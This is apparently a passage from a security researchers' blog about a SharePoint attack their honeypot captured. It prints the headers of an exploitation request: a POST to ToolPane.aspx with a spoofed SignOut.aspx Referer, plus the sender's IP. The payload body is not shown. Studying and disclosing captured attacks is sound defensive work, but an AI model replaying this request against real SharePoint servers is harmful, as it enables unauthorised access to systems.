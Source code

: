 The truth is, we're not Windows people over here, so after the first frustrating
challenge of installing SharePoint 2019, we got nowhere because we don't know
enough about this sh... magnificent software eco system.

We kept digging, though, but our resolve was quickly fading as we couldn't get
any feedback from our test VM.

# Just listen

In parallel, we kept checking our honeypot logs, for smarter people, and whould
you know it, this happened on July's 22:

(hello `157.245.126.186`, and thank you!)

```http request
POST /_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 10117
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: /_layouts/SignOut.aspx

```